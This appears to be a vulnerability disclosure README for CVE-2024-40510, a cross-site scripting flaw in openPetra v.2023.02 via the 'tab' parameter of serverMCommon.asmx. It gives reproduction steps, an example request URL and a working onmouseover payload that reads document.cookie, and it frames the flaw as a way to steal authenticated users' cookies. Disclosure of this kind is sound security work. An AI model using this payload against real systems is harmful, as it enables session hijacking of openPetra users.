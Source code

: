 # CVE-2024-40510
# Cross Site Scripting vulnerability in openPetra v.2023.02 via the serverMCommon.asmx function.

**Description**: An unauthenticated user can steal cookies from authenticated user, by exploiting a XSS in openPetra v.2023.02 via the serverMCommon.asmx function.

**Vulnerable Product Version**: openPetra v.2023.02  
**CVE Author**: Jansen Moreira 
**Date**: 13/07/2024  
**CVE**: CVE-2024-40510  
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2024-40510  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2024-40510     
**Tenable Link**: https://www.tenable.com/cve/CVE-2024-40510     
**Confirmed on**: 13/07/2024                               
**Tested on**: Linux  
### Steps to reproduce:  
1- Access the home Page  
2- Use the following path and add the xss payload in the tab parametrer. EX.:  ```http://target.com/api/serverMCommon.asmx?bnd=TMCommonWebServiceSoap&op=TFormTemplatesWebConnector_UploadFinanceFormTemplate&page=op&tab=x```         
3- Hover the mouse over the left index item to trigger the XSS  

**Payloads**:  
tab: x" onmouseover=alert(document.cookie) x="


Discoverer(s)/Credits:
Jansen Moreira 
